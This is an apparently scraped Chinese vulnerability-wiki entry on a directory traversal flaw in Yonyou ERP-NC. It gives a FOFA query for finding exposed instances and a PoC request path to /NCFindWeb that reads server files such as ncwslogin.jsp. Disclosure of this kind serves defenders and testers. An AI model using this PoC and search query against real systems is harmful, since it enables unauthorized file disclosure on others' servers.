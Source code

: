 # 用友ERP-NC 目录遍历漏洞

## 漏洞描述

用友ERP-NC 存在目录遍历漏洞，攻击者可以通过目录遍历获取敏感文件信息

## 漏洞影响

> [!NOTE]
>
> 用友ERP-NC 

##  FOFA

> [!NOTE]
>
> app="用友-UFIDA-NC"

## 漏洞复现

POC为

```
/NCFindWeb?service=IPreAlertConfigService&filename=
```

![](http://wikioss.peiqi.tech/vuln/yongyou-8.png)

查看 ncwslogin.jsp 文件

![](http://wikioss.peiqi.tech/vuln/yongyou-9.png)

## Goby & POC

> [!NOTE]
>
> YongYou ERP-NC directory traversal

![](http://wikioss.peiqi.tech/vuln/yongyou-10.png)